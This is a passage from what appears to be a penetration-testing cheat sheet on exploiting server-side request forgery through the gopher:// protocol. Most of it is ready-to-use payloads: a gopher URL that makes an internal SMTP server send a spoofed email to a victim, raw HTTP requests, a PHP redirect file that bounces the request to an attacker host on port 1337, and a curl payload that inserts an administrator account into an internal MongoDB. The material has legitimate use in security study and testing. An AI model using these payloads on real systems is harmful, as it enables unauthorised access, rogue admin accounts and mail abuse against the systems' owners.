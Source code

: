 Using this protocol you can specify the **IP, port and bytes** you want the server to **send**. Then, you can basically exploit a SSRF to **communicate with any TCP server** (but you need to know how to talk to the service first).\
Fortunately, you can use [Gopherus](https://github.com/tarunkant/Gopherus) to create payloads for several services. Additionally, [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) can be used to create _gopher_ payloads for _Java RMI_ services.

**Gopher smtp**

```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AHYou didn't say the magic word !
.
QUIT
```

**Gopher HTTP**

```bash
#For new lines you can use %0A, %0D%0A
gopher://<server>:8080/_GET / HTTP/1.0%0A%0A
gopher://<server>:8080/_POST%20/x%20HTTP/1.0%0ACookie: eatme%0A%0AI+am+a+post+body
```

**Gopher SMTP — Back connect to 1337**

{% code title="redirect.php" %}
```php
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```
{% endcode %}

#### Gopher MongoDB -- Create user with username=admin  with password=admin123 and with permission=administrator

```bash
# Check: https://brycec.me/posts/dicectf_2023_challenges#unfinished
curl 'gopher://0.0.0.0:27017/_%a0%00%00%00%00%00%00%00%00%00%00%00%dd%0
7%00%00%00%00%00%00%00%8b%00%00%00%02insert%00%06%00%00%00users%00%02$db%00%0a
%00%00%00percetron%00%04documents%00V%00%00%00%030%00N%00%00%00%02username%00%
06%00%00%00admin%00%02password%00%09%00%00%00admin123%00%02permission%00%0e%00
%00%00administrator%00%00%00%00'
```
